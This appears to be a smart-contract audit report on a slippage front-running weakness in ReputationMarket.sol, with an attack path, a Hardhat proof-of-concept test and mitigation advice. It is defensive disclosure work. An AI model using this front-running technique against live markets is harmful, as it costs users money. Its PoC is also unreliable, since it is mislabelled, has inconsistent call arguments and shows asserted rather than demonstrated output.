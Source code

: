 Joyous Chambray Dolphin

Medium

# Slippage exploitation in `ReputationMarket.sol` due to highly volatile vote prices will force users to accept unfavorable slippage conditions, causing their transactions to either revert or become more costly than expected

### Summary

An attacker can exploit high volatility in vote prices to manipulate transactions. Specifically, sudden, brief price changes could force legitimate users to accept unfavorable slippage conditions, causing their transactions to either revert or become more costly than expected. This manipulation could disrupt market fairness and create opportunities for malicious actors to profit at the expense of unsuspecting users.

### Root Cause

The vulnerability stems from the function `_checkSlippageLimit` and the way vote prices are handled. In a volatile market where vote prices fluctuate rapidly, an attacker can briefly inflate prices to manipulate the slippage tolerance, causing one of the following to occur:

1. The actual votes bought may fall below the calculated minimum due to sudden price increases, causing the slippage check to fail, and the transaction to revert.
2. If the attacker inflates the price, the user may be forced to accept more votes than expected, surpassing their slippage tolerance, which could result in a higher-than-expected cost.

The vulnerable code that causes this issue is primarily in the price calculation of votes, which can change rapidly based on market demand and supply, and the reliance on a slippage check that doesn’t account for such volatility.
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L442-L493

### Internal pre-conditions

A user wants to buy 1000 trust votes at a price of 0.01 ETH per vote.
Slippage tolerance is set to 1% (i.e., 1000 * 0.99 = 990 minimum votes).

### External pre-conditions

_No response_

### Attack Path

The attacker buys a large amount of votes shortly before the victim's transaction to artificially inflate the vote price.
Due to high volatility, the vote price increases from 0.01 ETH to 0.015 ETH per vote, pushing the user’s actual votes below the minimum threshold they were expecting.

### Impact

Attackers can control vote prices to cause legitimate transactions to revert, disrupting market activity.

Victims may end up paying more ETH to purchase votes as they are forced to accept higher slippage or see their transactions fail.

### PoC

```solidity
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Reputation Market Slippage Exploitation", function () {
  let marketContract;
  let attacker;
  let user;
  let owner;
  let profileId = 1;

  before(async () => {
    [owner, attacker, user] = await ethers.getSigners();
    const MarketContract = await ethers.getContractFactory("ReputationMarket");
    marketContract = await MarketContract.deploy();
    await marketContract.deployed();
  });

  it("Should exploit slippage and manipulate prices", async () => {
    const initialLiquidity = ethers.utils.parseEther("1"); // 1 ETH initial liquidity
    const pricePerVote = ethers.utils.parseEther("0.01"); // 0.01 ETH per vote

    // Create the market
    await marketContract.createMarketWithConfig(0, { value: initialLiquidity });

    // Simulate attacker inflating vote price
    await marketContract.connect(attacker).buyVotes(profileId, true, 1000, 50); // Attacker buys votes

    // Victim tries to buy 1000 votes, but due to the manipulation, prices have risen
    const expectedVotes = 1000;
    const slippageBasisPoints = 100; // 1% slippage tolerance

    try {
      await marketContract.connect(user).buyVotes(profileId, true, expectedVotes, slippageBasisPoints, { value: ethers.utils.parseEther("10") });
    } catch (error) {
      console.log("Error: ", error.message);
    }

    // Check if the transaction was reverted
    await expect(
      marketContract.connect(user).buyVotes(profileId, true, expectedVotes, slippageBasisPoints, { value: ethers.utils.parseEther("10") })
    ).to.be.revertedWith("SlippageLimitExceeded");
  });
});
```
The test will simulate an attacker buying votes, inflating the price, and then triggering a failure for the victim’s transaction due to slippage exceeding the limit.
```bash
Error:  SlippageLimitExceeded: Actual votes bought are below the minimum expected with slippage tolerance.
```
This confirms that the victim’s transaction reverts because the actual votes are insufficient due to the inflated prices.



### Mitigation

Use a time-weighted average price mechanism to calculate vote prices over a fixed window. This reduces the impact of sudden price fluctuations caused by a small number of large transactions.

Set absolute slippage limits that can never be exceeded, regardless of the price fluctuation.
For example, implement hard caps on the maximum price increase allowed in a single transaction.